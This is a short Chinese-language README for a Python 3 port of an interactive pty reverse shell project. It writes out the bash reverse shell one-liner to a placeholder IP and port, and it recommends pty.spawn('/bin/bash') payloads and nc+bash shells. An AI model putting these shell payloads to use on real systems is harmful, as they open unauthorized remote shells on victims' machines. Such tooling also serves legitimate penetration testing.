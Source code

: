 Python3-pty-shells
=================

这是一个八九年前的项目，但是这是用Python2写的，如今他已经无法兼容Python3，而如今连Ubuntu的最新版都默认预装Python3，要使用Python2还得另外安装，所以我把它修改了一下以便兼容Python3，不得不说这个项目非常的强，使用它得到的shell和本地的bash没有任何区别，你可以使用CTRL+C，CTRL+Z和CTRL+D，并且可以使用vi、nano等会阻塞当前终端的命令

不过你最好使用的Payload是Python写的，而不是最常用的bash一句话：bash -i >& /dev/tcp/**IP**/**PORT** 0>&1，如果你使用bash，会导致功能不完全，比如在bash回连的情况下，当你使用Ping命令时，会导致shell阻塞，这时你使用Ctrl+C都无济于事，不过还是可以使用nano和vi等命令。

二来使用Python的Payload的话，最好使用pty.spawn("/bin/bash")而不是subprocess.call或者其他



第三，如果你懒得折腾，那还是使用nc+bash吧



作者项目地址：https://github.com/infodox/python-pty-shells